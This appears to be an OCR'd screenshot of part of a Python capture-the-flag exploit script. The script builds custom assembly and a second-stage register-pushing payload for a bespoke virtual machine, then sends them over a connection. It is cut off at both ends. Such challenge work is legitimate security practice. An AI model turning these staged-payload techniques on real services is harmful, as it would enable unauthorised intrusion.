 ```python
    data = data.replace("PUSH", "BG")
    data = data.replace("POP", "SCT")
    return data.replace("\n\n", "\n")

def main():
    r = conn()

    asm = '''INC l1
INC l1
MOV l0, l1
IDK l1, l1

MOV l3, l1
MUL l3, l3
DIV l3, l0
ADD l3, l0

MOV l2, l1
DEC l2

MUL l0, l0
MUL l0, l0
MUL l0, l0

MOV lax, l2
MUL lax, l1
ADD lax, l0

IDK l1, l1
MOV l0, l1
MUL l0, l0
MARI

SUB l1, l1
ADD l1, l0
SUB l0, l0

SUB l2, l2
ADD l2, l3
DEC l2
DEC l2

ADD l0, l3
SUB l0, l2
IDK l0, l0
MOV lax, l0
SUB l0, l0
MARI
'''

    payload2 ='''INC l0
INC l0
NA l4
NA l5
PUSH l0
PUSH l2
PUSH l3
PUSH l4
PUSH l5
PUSH l1
LAR l0, l0
'''
    stage1 = convert_to_luma_asm(asm)
```